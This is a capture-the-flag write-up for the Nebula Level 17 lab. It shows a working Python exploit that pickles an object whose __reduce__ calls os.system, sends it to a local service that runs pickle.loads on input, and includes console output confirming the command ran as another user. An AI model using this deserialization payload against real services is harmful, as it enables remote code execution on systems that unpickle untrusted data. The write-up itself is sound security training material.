

# Nebula - [LEVEL 17](https://exploit.education/nebula/level-17/)

Level Description:




# Nebula - [LEVEL 17](https://exploit.education/nebula/level-17/) - Solution

By observing the code we can see the following line:
```python
obj = pickle.loads(line)
```

We can use the Insecure Deserialization with Python Pickle module ([Reference](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)).

Let's write the following ```python``` code to use this vulnerability:
```python
import socket
import pickle
import os


class RCE(object):
        def __reduce__(self):
                return (os.system,(('getflag > /tmp/gf17'),))


sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('127.0.0.1',10007))

payload = pickle.dumps(RCE())

print(sock.recv(1024))
sock.send(payload)
```

And we can see the ```/tmp/gf17``` file that created as ```flag17``` user:
```console
level17@nebula:/tmp/level17$ ls -ltr /tmp/gf17
-rw-r--r-- 1 flag17 flag17 59 2022-01-13 22:20 /tmp/gf17
level17@nebula:/tmp/level17$ cat /tmp/gf17
You have successfully executed getflag on a target account
```